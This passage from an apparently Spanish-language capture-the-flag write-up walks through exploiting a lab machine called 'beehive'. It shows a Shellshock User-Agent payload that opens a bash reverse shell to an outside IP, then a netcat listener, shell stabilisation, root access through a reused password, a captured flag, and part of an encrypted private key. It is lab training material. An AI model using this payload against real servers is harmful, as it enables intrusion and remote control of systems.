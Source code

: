 Me envío una reverse shell

```null
proxychains curl -s -X GET 172.24.0.2/cgi-bin/stats/ -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.16.11/443 0>&1" | html2text
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.65] 55658
www-data@beehive:/usr/lib/cgi-bin$ script /dev/null -c bash
script /dev/null -c bash
www-data@beehive:/usr/lib/cgi-bin$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                reset xterm
www-data@beehive:/usr/lib/cgi-bin$ export TERM=xterm
www-data@beehive:/usr/lib/cgi-bin$ export SHELL=bash
www-data@beehive:/usr/lib/cgi-bin$ stty rows 55 columns 209
```

```null
www-data@beehive:/usr/lib/cgi-bin$ hostname -I
172.24.0.2 
```

Un usuario tiene un directorio personal

```null
www-data@beehive:/home$ ls
spanishdancer
```

Se reutiliza la contraseña que vi en el ```DockerFile``` para el usuario ```root```

```null
www-data@beehive:/home$ su root
Password: 
root@beehive:/home#
```

Puedo ver la primera flag

```null
root@beehive:/home/spanishdancer# cat user.txt 
7aa098653173f7e306e1aa30458c01f0
```

# Escalada

Veo otra ```id_rsa```, pero esta vez encriptada

```null
root@beehive:/home/spanishdancer/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,C3EBD8120354A75E12588B11180E96D5

2UIvlsa0jCjxKXmQ4vVX6Ez0ak+6r5VuZFFoalVXvbZSLomIya4vYETv1Oq8EPeh
KHjq5wFdlYdOXqyJus7vFtB9nbCUrgH/a3og0/6e8TA46FuP1/sFMV67cdTlXfYI
Y4sGV/PS/uLm6/tcEpmGiVdcUJHpMECZvnx9aSa/kvuO5pNfdFvnQ4RVA8q/w6vN
p3pDI9CzdnkYmH5/+/QYFsvMk4t1HB5AKO5mRrc1x+QZBhtUDNVAaCu2mnZaSUhE
abZo0oMZHG8sETBJeQRnogPyAjwmAVFy5cDTLgag9HlFhb7MLgq0dgN+ytid9YA8
pqTtx8M98RDhVKqcVG3kzRFc/lJBFKa7YabTBaDoWryR0+6x+ywpaBGsUXEoz6hU
UvLWH134w8PGuR/Rja64s0ZojGYsnHIl05PIntvl9hinDNc0Y9QOmKde91NZFpcj
pDlNoISCc3ONnL4c7xgS5D2oOx+3l2MpxB+B9ua/UNJwccDdJUyoJEnRt59dH1g3
cXvb/zTEklwG/ZLed3hWUw/f71D9DZV+cnSlb9EBWHXvSJwqT1ycsvJRZTSRZeOF
Bh9auWqAHk2SZ61kcXOp+W91O2Wlni2MCeYjLuw6rLUHUcEnUq0zD9x6mRNLpzp3
```